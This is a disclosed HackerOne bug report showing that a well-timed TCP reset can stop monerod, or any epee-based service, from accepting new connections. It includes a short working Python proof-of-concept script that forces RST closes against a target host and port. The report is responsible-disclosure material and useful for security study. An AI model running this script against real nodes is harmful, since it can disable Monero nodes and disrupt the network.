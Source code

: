 # monerod can be disabled by a well-timed TCP reset packet

## Report Details
- **Report ID**: 363714
- **URL**: https://hackerone.com/reports/363714
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-06-09T12:09:17.963Z
- **Disclosed**: 2018-08-02T00:12:35.066Z

## Reporter
- **Username**: ahook
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: monero

## Vulnerability Information
**Summary:**
A well-timed TCP reset (RST) can cause monerod (or any service relying on epee) to stop accepting new connections.

**Description:**
When a new connection is attempted, the handle_accept function is called. This does some error checking and finishes setting up the connection. Once the connection is set up, it calls acceptor_.async_accept() in order to continue listening for new connections.

https://github.com/monero-project/monero/blob/8a7b3ff13858c5d879530c99de5c723c88429342/contrib/epee/include/net/abstract_tcp_server2.inl#L982

However, if the handle_accept function is called with an error code, it bypasses the main block of code and simply logs a message. It does not add the accept handler back to the acceptor. The result is that the daemon will stop accepting new connections if an error is hit.

It is possible for an attacker to remotely trigger such an error. If a TCP RST packet is sent immediately after a successful TCP handshake, the connection/socket will be torn down. If it happens fast enough (specifically in the window between the server receiving the ACK and the handle_accept function being called), this will cause an error.

## Releases Affected:

All releases using epee.

## Steps To Reproduce:

I've included a python script below which demonstrates a normal TCP connection that ends gracefully, and a malicious connection which causes an RST to be sent at close as opposed to FIN.

If this is run on a relatively idle node (e.g. if it's still synchronizing its blockchain), it will disable the node after just a couple tries. If a node is fully active, it becomes harder to get the RST processed within the critical window. I have yet to disable a fully active node, but it should be possible. A more efficient/faster attack going over raw sockets might make it easier.

## Supporting Material/References:

$ ./rst-attack.py <ip> <port>
```
#!/usr/bin/env python3
  
import socket, struct, sys

tgt_host = sys.argv[1]
tgt_port = int(sys.argv[2])

# Normal connection, send some data, end with graceful FIN.
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
s.connect((tgt_host, tgt_port))
s.send(b"hello")
s.close()

# Abnormal connection, force close by RST instead of FIN.
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
l_onoff = 1
l_linger = 0
p=struct.pack('ii', l_onoff, l_linger)
s.setsockopt(socket.SOL_SOCKET, socket.SO_LINGER, p)
s.connect((tgt_host, tgt_port))
s.close()
```

## Impact

An attacker can remotely disable monero nodes. I marked this as medium since my proof-of-concept script fails to disable most active nodes. However, it is theoretically possible to take down the whole network if a clever variation or different means of causing an accept error is discovered.

An attacker could also monitor the network and snipe any nodes that have lagged behind or are in the middle of syncing the chain.

## Attachments
No attachments
